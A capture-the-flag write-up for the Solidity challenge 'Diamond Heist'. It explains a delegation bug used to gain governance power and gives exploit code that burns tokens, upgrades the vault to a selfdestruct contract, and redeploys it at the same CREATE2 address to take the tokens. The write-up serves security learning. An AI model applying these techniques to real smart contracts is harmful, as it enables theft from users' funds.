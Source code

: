 # Diamond Heist

## Author

0xkasper

## Description

Agent, we are in desperate need of your help. The King's diamonds have been stolen by a DAO and are locked in a vault.
They are currently voting on a proposal to burn the diamonds forever!

Your mission, should you choose to accept it, is to recover all diamonds and keep them safe until further instructions.

Good luck.

This message will self-destruct in 3.. 2.. 1..

## Solution

### Step 1: 
The *HexensCoin* contract has a bug where if you transfer your tokens it will NOT reset the delegation.
All you have to do
is to make 10 account and circle the tokens through them, each account can delegate to the player until the player has
enough power to *burn* the diamonds in the *Vault*.

### Step 2:

Burn the token in the *Vault*, don't worry, we will recover them later.

```solidity
Vault.governanceCall(abi.encodeWithSignature("burn(address,uint256)", address(Diamond), 31337));
```

### Step 3:

We can make `governanceCall`, we take advantage of this and upgrade the vault to a new implementation of our own.

```solidity
Vault2 v2 = new Vault2();
Vault.governanceCall(abi.encodeWithSignature("upgradeTo(address)", address(v2)));

contract Vault2 is Initializable, UUPSUpgradeable, OwnableUpgradeable {
    function destruct() external {
        selfdestruct(payable(msg.sender));
    }
    function _authorizeUpgrade(address) internal override view {}
}
```

Once we upgrade to the *Vault2*, we just destruct the vault.

### Step 4:

Create a new vault using *VaultFactory* combined with the same *salt* used in the creation of the original vault.
Because *VaultFactory* uses *CREATE2*, it will create the new vault at the same address as the original vault.
Now we can *initialize* the new vault with our own parameters.

```solidity
Vault v3 = VaultFactory.createVault(keccak256("The tea in Nepal is very hot. But the coffee in Peru is much hotter."));
v3.initialize(address(new FakeToken()), address(new FakeToken()));
```

### Step 5:

Upgrade to another vault implementation which has a *mint* function, remember this contract has the exact address as 
the original vault that burnt the diamonds.

```solidity
Vault4 v4 = new Vault4();
v3.upgradeTo(address(v4));
Vault4(address(v3)).unburn(player, diamond, amount);

contract Vault4 is Initializable, UUPSUpgradeable, OwnableUpgradeable {
    function unburn(address player, Diamond diamond, uint amount) external {
        diamond.transfer(player, amount);
    }

    function _authorizeUpgrade(address) internal override view {
    }
}
```